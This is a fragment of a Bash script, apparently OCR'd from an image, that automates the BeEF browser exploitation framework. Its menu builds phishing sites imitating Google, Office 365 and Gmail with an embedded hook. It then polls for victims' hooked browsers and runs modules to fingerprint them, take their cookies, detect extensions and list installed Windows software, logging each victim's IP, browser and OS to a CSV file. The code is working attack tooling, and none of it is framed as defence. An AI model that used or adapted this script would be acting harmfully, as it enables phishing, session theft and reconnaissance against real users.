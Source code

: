 ```bash
                echo "Session: $SESSION | IP: $IP | Browser: $BROWSER | OS: $OS"
                
                # Execute information gathering modules
                echo "Running browser fingerprinting..."
                execute_module "$SESSION" 1 '{}'  # Get Browser Information
                
                echo "Getting cookies..."
                execute_module "$SESSION" 2 '{}'  # Get Cookie Information
                
                echo "Checking for Chrome extensions..."
                execute_module "$SESSION" 31 '{}'  # Detect Google Chrome Extensions
                
                # If Windows OS detected, try specific modules
                if [[ "$OS" == *"Windows"* ]]; then
                    echo "Detecting Windows software..."
                    execute_module "$SESSION" 114 '{}'  # Detect Software
                fi
                
                # Log successful hook
                echo "$IP,$BROWSER,$OS,$SESSION,$(date)" >> "$REPORT_DIR/hooked_browsers.csv"
            done
        else
            echo "No browsers hooked yet. Still waiting..."
        fi
        
        sleep 30  # Check every 30 seconds
    done
}

# Main menu
echo "BeEF Automation Script"
echo "======================"
echo "1) Create phishing site with BeEF hook"
echo "2) Monitor for hooked browsers"
echo "3) Show currently hooked browsers"
echo "4) Exit"
echo ""
read -p "Select an option: " choice

case $choice in
    1)
        echo "Select template:"
        echo "1) Google"
        echo "2) Office 365"
        echo "3) Gmail"
        read -p "Template: " template_choice
        
        case $template_choice in
            1) create_phishing_site "google" ;;
            2) create_phishing_site "office365" ;;
            3) create_phishing_site "gmail" ;;
            *) echo "Invalid choice" ;;
        esac
        ;;
    2)
        monitor_and_execute
        ;;
    3)
        get_hooked_browsers | jq .
        ;;
    4)
        echo "Exiting..."
        exit 0
```